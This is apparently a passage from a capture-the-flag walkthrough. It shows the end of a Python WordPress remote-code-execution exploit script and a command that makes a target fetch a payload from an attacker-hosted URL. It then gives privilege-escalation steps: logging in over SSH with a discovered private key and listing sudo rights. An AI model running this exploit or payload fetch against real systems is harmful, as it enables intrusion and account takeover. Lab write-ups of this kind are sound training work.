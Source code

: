 ```python
            sys.exit("[~] Unexpected Status Received!")

def main():
    parser = argparse.ArgumentParser(description="Exploit WordPress RCE vulnerability.")
    parser.add_argument('-t', '--target', dest="target", required=True, help="Target Link")
    parser.add_argument('-p', '--payload-url', dest="payload_url", required=True, help="URL where the payload is hosted")

    args = parser.parse_args()

    print("[>] Sending Payload to System!")
    exploit = Exploit(args.target, args.payload_url)
    exploit.engage()

if __name__ == "__main__":
    main()
```

```bash
python3 script2.py -t http://$IP/wordpress/ -p http://192.168.45.160/payload.txt
```

## PrivEsc

### Id\_rsa

A potential private SSH key file, `id_rsa`, was found in the `/home/max/.ssh/` directory.

SSH keys are used for secure authentication to remote systems. The private key, usually named `id_rsa`, should be kept secret and secure. If such a key file is found in a vulnerable or public location, it could lead to unauthorized access if someone gains access to the key.

The permission `600` means that the owner (in this case, the user `max`) has read and write access, while no other users have any permissions.

```bash
chmod 600 id_rsa
```

To connect securely using this private key, we use the SSH client's `-i` option to specify the private key file.

```bash
ssh -i id_rsa max@$IP
```

### Sudoers

The `sudo -l` command is used to list the allowed (or forbidden) commands that a user can run with `sudo` privileges.

```perl
User max may run the following commands on so-simple:
    (steven) NOPASSWD: /usr/sbin/service
```
